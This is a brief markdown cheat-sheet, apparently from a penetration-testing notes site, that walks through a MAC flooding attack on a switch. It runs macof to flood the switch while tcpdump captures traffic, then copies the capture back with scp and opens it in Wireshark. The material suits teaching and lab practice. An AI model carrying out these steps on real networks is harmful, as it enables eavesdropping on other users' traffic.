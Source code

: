 ```yaml
---
title: MAC Flooding Attack
desc: 
tags: [Flooding, MAC, Macof, Network, Scp, SSH, Tcpdump, Wireshark]
alts: []
render_with_liquid: false
---
```


## Attack Flow

1. **Open Two SSH Sessions**

    Start the SSH session 1 in terminal 1.

    ```sh
    ssh victim@<target-ip>
    ```

    Start the SSH session 2 in terminal 2.

2. **Flood the Switch and Capturing the Traffic**

    In the session 1, start **tcpdump** and keep it running.

    ```sh
    tcpdump -A -i eth1 -w /tmp/tcpdump.pcap
    ```

    In the session 2, start flooding the switch (here "eth1" interface).

    ```sh
    macof -i eth1
    ```

    After about 30 seconds, stop **macof** and **tcpdump**.

3. **Investigate the Captured Traffic**

    In your local machine, transfer the dumped file named "/tmp/tcpdump.pcap" from the target machine to your local machine.

    ```sh
    scp victim@<target-ip>:/tmp/tcpdump.pcap .
    ```

    Investigate this file using Wireshark

    ```sh
    wireshark ./tcpdump.pcap
    ```
